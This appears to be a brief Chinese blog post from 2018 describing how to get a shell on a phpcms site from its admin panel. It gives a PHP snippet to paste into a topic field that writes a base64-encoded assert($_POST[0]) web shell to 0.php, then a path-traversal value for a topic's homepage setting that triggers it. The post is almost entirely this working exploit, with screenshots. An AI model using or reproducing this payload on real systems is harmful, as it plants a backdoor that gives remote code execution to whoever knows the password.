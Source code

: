 ```yaml
---
title: "phpcms 后台 getshell"
date: 2018-02-02T00:00:00+08:00
draft: false
tags: ['cms']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


phpcms 后台 getshell

<!--more-->

内容 - 专题 - 添加专题

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464754.jpg)

专题导读

`<?php file_put_contents('0.php',base64_decode('PD9waHAgYXNzZXJ0KCRfUE9TVFswXSk7Pz4=')); ?>`

保存

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464902.jpg)

再添加专题 扩展设置

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464938.jpg)

F12 定位 专题首页

value 要与之前添加的专题名对应

`../../../../html/special/test/index`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517465015.jpg)

保存 网站根目录下生成 0.php 密码 0

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517465041.jpg)